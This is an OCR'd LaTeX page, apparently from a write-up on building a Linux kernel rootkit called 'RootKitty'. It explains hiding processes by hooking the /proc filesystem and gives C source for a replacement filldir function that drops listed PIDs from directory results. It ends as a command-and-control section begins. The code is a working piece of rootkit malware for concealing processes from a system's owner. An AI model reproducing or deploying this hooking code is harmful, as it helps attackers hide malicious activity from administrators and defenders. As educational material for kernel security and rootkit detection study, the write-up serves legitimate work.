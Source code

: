 \documentclass[11pt]{article}
\begin{document}
\subsection{Hiding Processes}
Hiding processes is almost identical to our method of hiding files, albeit we are hooking the filesystem mounted at `/proc' rather than `/'. For the sake of brevity I've only included the replacement filldir method:
\begin{verbatim}
/**
 * Replacement function for "/proc" filldir. Checks to see whether any PIDs
 * from our global pid_list are in the buffer. If so, we return 0 to pretend
 * the PID does not exist. Otherwise we just pass the arguments to the original
 * filldir function and return its results to preserve functionality.
 *
 * @return 0 if a 'protected' pid is detected, otherwise returns 'normal'
 * filldir results.
 */
static int proc_filldir(void * context, const char *name, int namelen, loff_t
                        offset, u64 ino, unsigned int d_type) {

    struct pid_entry *p;

    // If buffer contains any PIDs from our list, return 0.
    list_for_each_entry(p, &pid_list, list) {
        if (simple_strtoul(name, NULL, 10) == p->pid) {
            return 0;
        }
    }

    // Otherwise return 'normal' results.
    return original_proc_filldir(context, name, namelen, offset, ino, d_type);
}
\end{verbatim}

One thing to note is that \texttt{root_filldir} \& \texttt{proc_filldir} operate on \texttt{file_list} \& \texttt{pid_list} respectively. These are simply global lists containing the file names and PIDs we'd like to filter out of our results. A list was chosen as it allows us to add, remove and iterate through entries easily.
\newpage
\section{Communicating With Your RootKitty (Command \& Control)}
Given our newfound ability to arbitrarily hide files \& processes using our spicy hooks, we'd like a way to command our rootkit to do so! Admittedly as I was running a little low on time so I sorta cheaped out and hastily implemented C2. PlzForgive.
\end{document}
